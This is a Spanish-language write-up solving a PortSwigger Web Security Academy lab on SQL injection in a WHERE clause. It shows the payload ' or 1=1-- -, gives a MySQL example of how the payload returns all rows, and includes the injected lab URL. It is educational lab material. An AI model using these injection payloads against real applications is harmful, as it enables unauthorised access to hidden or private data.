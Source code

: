 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

### Explicación:

### Query original:

El payload se inyecta en donde se pone el nombre del artículo o sección:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0b35f1ca-3c73-4837-a0f8-b5be87e084bf)

### Ejemplo con lab:

En realidad el query está diseñado para solo arrojar un resultado específico, por ejemplo:

````sql
# Ejemplo Original: 
select id,username from users where subscription = '1' and id = 5;
````
````py
# Arroja solo un resultado
   ## subscription = 1
   ## id = 5

+----+----------+
| id | username |
+----+----------+
|  5 | Ff0ur    |
+----+----------+
````

### Resultado final

- Con el payload `' or 1 = 1;-- -` o `' or 1 = 1-- -'` o `' or 1 = 1'-- -` _(o alguna de sus variantes de comentarios)_ es como "romperé" el query:
- Es decir, con este payload le estoy pidiendo en la query que regrese el `id=5` (osea solo `Ff0ur`) o todo donde sea `1=1` (osea `true`)... osea todo!!! porque todo es true!!!!!! muahaha!! ;)

````sql
# Ejemplo Final: (ya con SQLi)
select id,username from users where subscription = '1' or 1 = 1;-- - and id = 5 (aqui incluso puede ir otro query original que elimino, ya que es un comentario!!! :P);
````
````py
# Arroja todos los usernames y ids, sin condicionales!!
+----+----------+
| id | username |
+----+----------+
|  1 | Fz3r0    |
|  2 | F0n3     |
|  3 | Ftw0     |
|  4 | Fthr33   |
|  5 | Ff0ur    |
|  6 | Ff1v3    |
+----+----------+
````

- OJO! en consola de `mysql` se deben poner los `;`, pero en web no.

## Solución:

1. Abrir laboratorio

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a56c4773-50c8-41b7-82b7-94631079ad1c)

2. Si filtro puedo empezar a ver el query desde la URL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4349813d-9f17-4542-9695-ed2d23113a01)

3. Query que usé

````sql
'or 1=1-- -
````
````http
https://0a83007b03adf85d811702c2004f0064.web-security-academy.net/filter?category=Lifestyle'or 1=1-- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/2d654adb-8e7f-41eb-b8fc-84c9935c3e83)




